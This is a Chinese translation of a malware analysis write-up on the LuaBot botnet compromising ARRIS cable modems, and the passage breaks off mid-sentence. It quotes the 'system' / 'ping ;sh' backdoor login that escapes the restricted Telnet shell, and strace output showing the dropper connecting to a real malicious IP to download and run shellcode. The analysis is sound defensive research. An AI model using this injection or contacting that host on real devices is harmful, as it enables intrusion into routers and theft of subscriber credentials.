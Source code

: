[![](https://p4.ssl.qhimg.com/t013c3b2d037e40441d.png)](https://p4.ssl.qhimg.com/t013c3b2d037e40441d.png)

## <br>

**电缆调制解调器的安全和ARRID的后门**

在进一步操作前， 如果你希望了解电缆调制解调器的安全，请看我去年进行的讨论 “Hacking Cable Modems: The Later Years”的幻灯片。 会谈囊括了用来管理电缆调制解调器的技术的很多方面：数据是如何保护的，ISP是如何更新固件的等等。

[https://github.com/bmaia/slides/raw/master/nullbyte_2015-hacking_cable_modems_the_later_years.pdf](https://github.com/bmaia/slides/raw/master/nullbyte_2015-hacking_cable_modems_the_later_years.pdf)

特别要关注第86页：

[![](https://p1.ssl.qhimg.com/t01de7b28bf2a0303b4.png)](https://p1.ssl.qhimg.com/t01de7b28bf2a0303b4.png)

我收到了很多报告：为了转存配置文件和偷窃私人认证证书，恶意程序的创立者们远程攻破了这些设备。还有一些用户表示个人认证信息被出售给全球各地的调制解调器克隆商以获取比特币。 [[Malware Nust Die!]](http://blog.malwaremustdie.org/2016/09/mmd-0057-2016-new-elf-botnet-linuxluabot.html)上的报告也表明了 LuaBot也在进行 flooding/DDoS攻击。

<br>

**漏洞利用和传染**

Luabot恶意程序是一个更大的僵尸网络的一部分，以各种架构的嵌入式设备为目标。 验证了一些感染的设备后，我注意到大多数的电缆调制解调器是通过使用ARRIS的后门口令对受限的CLI进行命令行注入破解的。  

Telnet蜜罐（比如[ [nothink.org]](http://www.nothink.org/honeypot_telnet.php)）已经记录了一段时间关于尝试利用漏洞的情况。记录了很多尝试使用用户名 “system”和口令”ping ;sh”的暴力破解。但其实，命令是用来逃避受限制的ARRIS的Telnet shell。

[![](https://p5.ssl.qhimg.com/t013718c3c6345b11ab.png)](https://p5.ssl.qhimg.com/t013718c3c6345b11ab.png)

最初创建的dropper程序通过显示shell命令创建一个标准的ARM ELF文件。

[![](https://p1.ssl.qhimg.com/t0132363c41bcc7a04e.png)](https://p1.ssl.qhimg.com/t0132363c41bcc7a04e.png)

[![](https://p5.ssl.qhimg.com/t010caf068d3b679693.png)](https://p5.ssl.qhimg.com/t010caf068d3b679693.png)

我交叉编译，上传了一些调试工具到我的[cross-utils](https://github.com/bmaia/cross-utils/tree/master/armeb)仓库，包括gdbserver、strace和tcpdump。我也碰巧有一个ARRIS TG862设备，所以准备在受控环境下进行动态调试。

如果使用strace运行dropper监控网络调用，你会看到首次连接尝试：

```
./strace -v -s 9999 -e poll,select,connect,recvfrom,sendto -o network.txt ./mw/drop
```

```
connect(6, `{`sa_family=AF_INET, sin_port=htons(4446), sin_addr=inet_addr("46.148.18.122")`}`, 16) = -1 ENODEV (No such device)
```

命令为简单的下载和执行ARMEB的shellcode，恶意ip : 46.148.18.122 在 [bruteforcing SSH servers and trying to exploit Linksys router command injections](https://www.abuseipdb.com/check/46.148.18.122)中已经知晓。 下载第二阶段的恶意程序之后，脚本会显示以下字符：
